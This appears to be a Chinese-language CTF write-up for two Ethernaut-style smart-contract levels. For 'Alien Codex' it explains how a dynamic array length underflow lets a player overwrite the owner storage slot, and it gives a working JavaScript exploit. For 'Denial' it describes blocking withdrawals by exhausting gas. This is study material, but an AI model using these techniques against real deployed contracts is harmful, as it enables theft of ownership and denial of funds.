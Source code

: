 ## 19. Alien Codex
目標 `owner = player`

AlienCodex 繼承了 Ownable，owner 必定在 `Ownable-05.sol` 中，storage 從 `Ownable-05.sol` 開始排，storage 總共有 `2^256` 個 slot。

從 slot 0 開始看 owner 到底在哪個 slot

注意 solidity 版本 `0.5.0` -> overflow/underflow?

Dynamic array `codex` 的 `data[0]` 存放在 slot p = keccak256(1)，`data[1]` 在 keccak256(1)+1，以此類推。
```
slot 0:      contact | owner
slot 1:      codex.length
...
slot p:      codex[0]
slot p+1:    codex[1]
... 
slot 2^256-1:codex[2^256 - 1 - p]
slot 0       codex[2^256 - p]
```
看到 `retract()` 可以改變 length，讓 length overflow，又因為總共只有 `2^256` 個 slot，必定存在 `i` 使得 `codex[i]` 存在 slot 0，可以用 `revise()` 改掉在 slot 0 的 owner。
```solidity
  function retract() contacted public {
    codex.length--;
  }
```
### Exploit
```javascript
await contract.make_contact()
await contract.retract()
p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
i = BigInt(2 ** 256) - BigInt(p)
content = '0x000000000000000000000000' + player.slice(2)
await contract.revise(i, content)
```

## 20. Denial
目標讓 owner 無法透過 `withdraw()` 成功提款
```solidity
    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }
```
line 7 會做 transfer，在 line 6 動手腳，call 無限制 gas 用量，透過重入或其他操作達成 `revert: out of gas exception`。
